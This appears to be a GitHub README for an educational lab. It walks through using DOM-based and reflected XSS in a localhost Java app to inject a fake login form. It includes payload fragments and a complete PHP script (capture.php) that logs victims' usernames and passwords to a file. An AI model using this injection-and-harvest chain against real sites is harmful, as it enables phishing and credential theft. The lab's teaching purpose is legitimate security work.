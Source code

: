 # xss-demo-vulnerable-app

# XSS Demo: Vulnerable Java Web App + Credential Capture (Educational Lab)

This project demonstrates how **DOM-based and reflected Cross-Site Scripting (XSS)** vulnerabilities can be chained together to simulate a **phishing attack** using a vulnerable Java Spring web application and a credential-capturing PHP backend.

> ⚠️ **This project is intended solely for educational, ethical, and testing purposes. Do not deploy or use in any environment you do not own or have permission to test.**

---

## 🎯 Objective

To simulate how an attacker could:
1. Exploit a DOM-based and reflected XSS vulnerability.
2. Inject a fake login form into a web page.
3. Capture submitted credentials using a local PHP server.

---


I Started the webapp which is hosted in my localhost (Tomcat)


![1](https://github.com/user-attachments/assets/b31668e0-8e4f-45aa-8e8d-9cd6472808e8)


---

Next, i inerted a DOM based XSS script in the query 

![3](https://github.com/user-attachments/assets/0e58c723-c4f5-4fc5-9b75-03e9dd928f97)


Payload

![2](https://github.com/user-attachments/assets/9c7d843d-260e-42c5-9a17-9956de85868a)

## What this does

"><script>alert(...) — DOM-XSS popup

<form action=...> — Reflection-XSS injects phishing form

Form submits to attacker-controlled site

---

The user will get popup prompting the user to log in first

![4](https://github.com/user-attachments/assets/c69b1a2e-450e-4671-a7b7-158655d13622)


---

from the injected Payload it ask the user to enter the username and password

![5](https://github.com/user-attachments/assets/680fb121-c1f9-44f4-acd2-a7703e54d0e6)


---

from the Attackers side I created a custom PHP Script (capture.php) which grabs the cred from the user:
```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = htmlspecialchars($_POST["username"]);
    $password = htmlspecialchars($_POST["password"]);

    // You can log this to a file instead of printing it
    echo "<h2>Captured Credentials</h2>";
    echo "Username: " . $username . "<br>";
    echo "Password: " . $password . "<br>";

    // Optionally write to file
    $log = fopen("creds.txt", "a");
    fwrite($log, "Username: $username | Password: $password\n");
    fclose($log);
}
?>

```php












